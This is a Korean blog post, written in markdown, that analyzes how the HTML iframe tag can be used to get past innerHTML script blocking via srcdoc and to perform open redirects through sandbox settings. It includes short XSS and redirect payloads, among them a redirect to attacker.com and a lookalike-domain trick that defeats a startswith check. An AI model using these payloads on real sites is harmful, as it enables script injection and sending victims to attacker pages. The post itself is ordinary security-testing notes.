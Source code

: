 ```yaml
---
layout: post
title: <iframe>
subtitle: 제일 취약하다고 생각하는 태그에 대한 나름의 분석
author: g3rm
categories: Web
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - XSS
  - iframe
  - Open_Redirect
  - innerHTML
sidebar:
---
```

## Intro
`<iframe>`은 다른 웹 페이지(HTML)를 사용하기 위한 태그이고, 아직 많이 사용하고 있는 것 같습니다. 특히 youtube를 불러올 때, 많이 쓰는거 같다는 느낌을 받았습니다. [왜 video로 안불러오지....?]        

현 페이지가 보안에 안전한 페이지라도 불러오는 다른 웹 페이지가 안전하지 않다면 현 페이지에도 영향이 가기에 `<iframe>`에 대한 저의 인식은 취약한 태그로 자리잡고 있습니다.    

이 글에서 다양한 보안 설정들을 `<iframe>`을 통해 어떻게 우회? 및 공격할 수 있는지 적어두려고 합니다.   
## Detect & Exploit 
### Detect
우선 iframe 태그를 삽입할 수 있는 지 파악해주시면 됩니다.   
### Exploit

#### InnerHTML 우회
[MDN InnerHTML](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML)문서를 보면 InnerHTML로 `<script>` 삽입 시 실행이 되지 않는다고 되어 있습니다. 저도 진단하면서 간혹 태그는 정상적으로 들어가지만, 실행이 안됐던 적이 있었는데 `<iframe>`을 통해 우회가 가능합니다.   
☑️물론 `<script>`가 삽입되는 곳이라면 다른 편한 방법이 있을 것입니다.   
```HTML
#srcdoc 속성을 이용한 태그 삽입
<iframe srcdoc="<script>alert()</script>">
```
#### Open Redirect
 iframe의 sandbox 속성을 이용하면 부모 창을 제어할 수 있습니다.   
```HTML
#webhook 
<script>window.top.location = https://attacker.com</script>

#victim site
<iframe src="https://webhook.site/~~" sandbox="allow-top-navigation allow-scripts">

#잘못된 src 검증 로직일 경우 ex) startswith
<iframe src="https://www.youtube.com.webhook.site/~~" sandbox="allow-top-navigation allow-scripts">
```

## References
[`<iframe>`-MDN](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe)   
[JSONP Payload](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt) JSONP 다룰 때 옮길예정
